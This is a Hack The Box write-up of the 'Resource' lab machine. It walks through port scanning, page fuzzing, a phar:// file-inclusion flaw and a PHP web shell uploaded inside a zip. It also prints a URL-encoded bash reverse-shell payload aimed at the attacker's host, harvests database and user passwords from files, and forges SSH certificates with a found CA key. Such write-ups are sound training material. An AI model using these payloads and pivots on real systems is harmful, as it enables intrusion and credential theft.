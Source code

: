 ```yaml
---
title: "Resource - Hack The Box Machines"
date: 2024-08-08 08:00:00 - 0500
categories: [Hack The Box, Machines]
tags: [htb, machine, web, resource, seasonvi]
image: 
  path: /assets/img/posts/htb/e83ac2321955bd2e0beb788d47fa5ae9.webp
---
```



## Reconnaisance

![Desktop View](/assets/img/posts/htb/e83ac2321955bd2e0beb788d47fa5ae9.png){: width="972" height="589" }
_Resource HTB Season VI_

Hello, everyone! 👋 Welcome back. This is the first machine challenge of `Season VI` and it has a medium difficulty level. As with many previous attempts to pwn a box, I will use the `nmap` tool to scan the target machine and determine which ports are open.

```bash
[user@machine] - $ nmap -p- 10.10.11.x -T4 --min-rate=1000 -Pn --disable-arp-ping -oN nmapscan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 10:59 EDT
Warning: 10.10.11.x giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.x
Host is up (0.073s latency).
Not shown: 63965 closed tcp ports (conn-refused), 1567 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 104.88 seconds
```
{: .nolineno }


With the initial scan, I determined that three ports are open on the target machine: 22, 80, and 2222.

```bash
[user@machine] - $ nmap -p22,80,2222 -sC -sV 10.10.11.x

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 12:10 EDT
Nmap scan report for 10.10.11.x
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d5:4f:62:39:7b:d2:22:f0:a8:8a:d9:90:35:60:56:88 (ECDSA)
|_  256 fb:67:b0:60:52:f2:12:7e:6c:13:fb:75:f2:bb:1a:ca (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://itrc.ssg.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:a6:83:b9:90:6b:6c:54:32:22:ec:af:17:04:bd:16 (ECDSA)
|_  256 0c:c3:9c:10:f5:7f:d3:e4:a8:28:6a:51:ad:1a:e1:bf (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.22 seconds
```
{: .nolineno }

From the nmap scan report, we can see that the target machine has the following open ports and services:
- Ports open:
    - 22/tcp: SSH service (OpenSSH 9.2p1 Debian)
    - 80/tcp: HTTP service, redirect to `http://itrc.ssg.htb/` and has an `nginx/1.18.0` server header.
    - 2222/tcp: SSH service (OpenSSH 8.9p1 on Ubuntu)

I am wondering why there are two SSH services open on different ports for two different versions of OpenSSH?<br>
Use this command to add an IP and hostname to file `/ect/hosts`

```bash
[user@machine] - $ echo "10.10.11.x itrc.ssg.htb" | sudo tee -a /etc/hosts
```
{: .nolineno }

Next, I accessed the target machine on port 80 at `http://itrc.ssg.htb`, which led me to an IT Support Center page. Reading the introduction section on the website, it mentions `Managing SSH Access`, ...


![Access web](/assets/img/posts/htb/ZUcp4D5uDq.png){: width="972" height="589" }
_Access webpage on port 80_

Next, to see what this website does, I need to register an account and log in.

![Access web](/assets/img/posts/htb/I3ioT1nYNb.png){: width="972" height="589" }
_Login page_

![](/assets/img/posts/htb/774Jbz1Bra.png){: width="972" height="589" }
_Dashboard page_

Use ffuf to `fuzz` the `page` parameter.
```bash
[user@machine] - $ ffuf -u http://itrc.ssg.htb/index.php/\?page\=FUZZ  -w ~/workspace/machine/SecLists-master/Discovery/DNS/n0kovo_subdomains.txt -fs 3120 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://itrc.ssg.htb/index.php/?page=FUZZ
 :: Wordlist         : FUZZ: /home/natsu/workspace/machine/SecLists-master/Discovery/DNS/n0kovo_subdomains.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 3120
________________________________________________

admin                   [Status: 200, Size: 1331, Words: 136, Lines: 26]
login                   [Status: 200, Size: 2709, Words: 239, Lines: 44]
register                [Status: 200, Size: 2842, Words: 255, Lines: 45]
dashboard               [Status: 200, Size: 1331, Words: 136, Lines: 26]
db                      [Status: 200, Size: 2276, Words: 158, Lines: 35]
ticket                  [Status: 200, Size: 1331, Words: 136, Lines: 26]
index                   [Status: 200, Size: 2276, Words: 158, Lines: 35]
logout                  [Status: 200, Size: 2627, Words: 196, Lines: 39]
```
{: .nolineno }

Accessing the `page=admin`, I see several tickets with subjects such as `Malware in finance dept` and `SSH Key Signing Broken`, but I cannot access most of these tickets to view their detailed contents.

And one notable thing is that under Admin Tools, I see `Contact zzinter for manual provisioning`

![Access web](/assets/img/posts/htb/wl6B6DycYy.png){: width="972" height="589" }
_Access web at admin page_

Going back to the dashboard, I tried to create a ticket with the subject `New ticket` and uploaded a ZIP file.
![](/assets/img/posts/htb/VT7KF8aPSu.png){: width="972" height="589" }

When I right-clicked on the `file.zip` location, I saw that the uploaded file is stored at the path: `itrc.ssg.htb/uploads/a00308c0438df0f0cb98f5261ca9124e57fcd1ed.zip`
![](/assets/img/posts/htb/f4fL4Yfuzg.png){: width="972" height="589" }

Looking at the filename, it appears to be some sort of hash, and it is indeed a SHA-1 hash.
![](/assets/img/posts/htb/ePZVwFwTED.png){: width="972" height="589" }
_sha1sum file.zip_

After uploading a regular ZIP file, I tried uploading an empty file to see if any errors occurred.
In the response, I noticed that two functions mentioned in the misreporting are `ZipArchive::open()` and `hash_file()` in the file `/var/www/savefile.inc.php`

![Access web](/assets/img/posts/htb/AhbMSzXGYE.png){: width="972" height="589" }
_Upload empty file zip_

## LFI loophole 
![Access web](/assets/img/posts/htb/sT30Q7ekyj.png){: width="972" height="589" }
_Access file in /var/www/itrc_

Test the LFI loophole with some protocols like `file`, `dict`, `phar`: `itrc.ssg.htb/?page=file:///var/www/itrc/create_ticket`.
![Access web](/assets/img/posts/htb/ajWwYf5yLu.png){: width="972" height="589" }
_LFI loophole_

## RCE www-data
Upload file shell and RCE

```bash
<?php
	system($_GET["cmd"]);
	__HALT_COMPILER();
?>
```
{: .nolineno }

```bash
$ zip shell.zip shell.php
$ sha1sum shell.zip
```
{: .nolineno }

```
http://itrc.ssg.htb/?page=phar://uploads/aee15c9bfb55e6c04a49b57d2c62a215f62e1d26.zip/shell&cmd=/bin/bash+-c+%27/bin/bash+-i+%3E%26+/dev/tcp/<your ip>/9001+0%3E%261%27
```
Listen and get reverse shell.
![](/assets/img/posts/htb/5zT91t6m6p.png){: width="972" height="589" }
_Reverse shell_

```bash
www-data@itrc:/var/www/itrc$ cat db.php

<?php

$dsn = "mysql:host=db;dbname=resourcecenter;";
$dbusername = "jj";
$dbpassword = "ugEG5rR5SG8uPd";
$pdo = new PDO($dsn, $dbusername, $dbpassword);

try {
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Connection failed: " . $e->getMessage());
}
```
{: .nolineno }

![Access web](/assets/img/posts/htb/HikHECRoHm.png){: width="972" height="589" }
_Home folder_

## msainristil@itrc

As mentioned earlier in the admin page, we saw several tickets that had already been created, and upon checking the uploads directory, I found multiple ZIP files. It's possible that, besides the files I uploaded, the remaining files were uploaded by those tickets.

I used zipgrep to check if any of these ZIP files contain sensitive information.

```bash
$ for zipfile in *.zip; do zipgrep "msainristil" "$zipfile"; done

"user=msainristil&pass=82yards2closeit"
```
{: .nolineno }
![Access web](/assets/img/posts/htb/eNkVNvGhaF.png){: width="972" height="589" }
_User msainristil_

SSH to target machine with username and password `msainristil:82yards2closeit`


![Access web](/assets/img/posts/htb/ObNMYEca1Y.png){: width="972" height="589" }
_SSH user msainristil_

![Access web](/assets/img/posts/htb/IDhUIWevhR.png){: width="972" height="589" }
_Certificate CA_

## zzinter@itrc 

```bash
$ ssh-keygen -t rsa -b 2048 -f yzx
$ ssh-keygen -s ca-itrc -I ca-itrc.pub -n zzinter yzx.pub
$ ssh-keygen -Lf yzx-cert.pub
$ ssh -o CertificateFile=yzx-cert.pub -i yzx zzinter@localhost
```
{: .nolineno }

![Access web](/assets/img/posts/htb/EquSHNMrMP.png){: width="972" height="589" }
_Get user flag_


## References

